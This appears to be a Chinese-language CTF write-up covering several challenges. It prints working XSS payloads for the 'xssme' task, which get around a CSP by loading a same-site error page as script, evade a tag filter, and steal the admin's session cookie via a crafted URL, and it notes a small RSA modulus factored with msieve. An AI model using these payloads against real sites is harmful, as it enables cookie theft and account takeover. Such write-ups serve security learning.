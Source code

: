###SuperAdmin (250)
>简单的认证系统 202.120.7.141:8888

###injection (350)
>web dog's revenge 5
>this is a sql injection
>http://202.120.7.138:8888/html/index.php.bak

###xssme (500)
>web dog's revenge 6
>this is a xss

>请用最新版chrome测试，管理员测试过payload，一切正常。如有问题请及时联系管理员root@5alt.me
>最终的payload的形式是一个url，payload会在站内触发，请不要发送到我的邮箱。
>admin只会点你发过去的本站内url，任何不是url的东西都不会去碰。另外admin不能访问外部的服务器。加油！

刚开始搞错题目意思，一直以为是管理员后台不停刷新 show 页面，没理解那个发 url 的意思，一直都是发的 `<a>` 标签没任何反馈。
似乎木有啥过滤的 XSS，不过有 CSP 不能执行 inline 的 script，于是乎想到引用页面本身，把 html 当做 js。
然而语法因为用户名限制了字母和数字，`<br>` 那里要想语法不挂彩太难，晚上跟队友讲时突然想到其实本站内任何一个页面都行。
于是很容易发现 send 页面在用户名不存在时报错会把 reciever 和 content 打出来，还正好一前一后，于是通过注释轻松过 js 语法。

```
<scrscriptipt src="/html/index.php?action=send&to=*/alert(1)&content=/*"></scrscriptipt>
```

直接给自己发上面消息，然后进 show 页面可见直接 alert 成功。

然后企图构造 `document.location = 'xxx' + document.cookie` 发现 send 页面会把引号转义输出。
于是乎想了想，把字符串放 url 中，用 substr 取出来就好了，简单起见，可以放在 `#` 后面用 `location.hash` 取。
给自己发下面消息，然后进 show 页面即会自动跳转。

```
<scrscriptipt src="/html/index.php?action=send&to=*/document.location=location.hash.substr(1)%2bdocument.cookie&content=/*"></scrscriptipt>
```

最后把这条消息发给管理之后，给管理员发送下面 url 让管理员去访问，即可收到含 cookie 的消息，可见 flag。

```
http://202.120.7.136:8888/html/index.php?action=show#http://202.120.7.136:8888/html/index.php?action=send&to=ripples2&content=testfromadmin-
```

当然，应该是可以直接把这两条消息拼成一个 url 直接发给管理员就好了，不过既然已经过了就懒得搞了。

## Crypto
###RSA  (100)
>分分钟就能破解RSA

发现素数只有256位左右，难得factordb上没有，就用msieve分解了下，得到结果

```
Sat Oct 17 09:51:13 2015  prp39 factor: 258631601377848992211685134376492365269
Sat Oct 17 09:51:13 2015  prp39 factor: 286924040788547268861394901519826758027
```
然后求逆元还原出`d`解密得到flag

### Alice  (200)
>Tell Alice that she is your best friend!
>202.120.7.153 10002
